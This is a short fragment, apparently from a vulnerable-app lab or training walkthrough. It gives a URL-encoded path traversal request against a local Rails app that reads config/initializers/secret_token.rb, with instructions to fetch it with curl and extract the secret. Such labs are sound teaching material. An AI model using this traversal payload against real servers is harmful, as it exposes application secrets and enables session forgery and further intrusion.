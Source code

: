 Here's the URL you need to request to download the target file:

~~~
http://localhost:3000/uploads/%2E%2E%2Fconfig%2Finitializers%2Fsecret_token.rb
~~~

Hit that URL with curl or a command line script and then parse the secret out
of the response body.

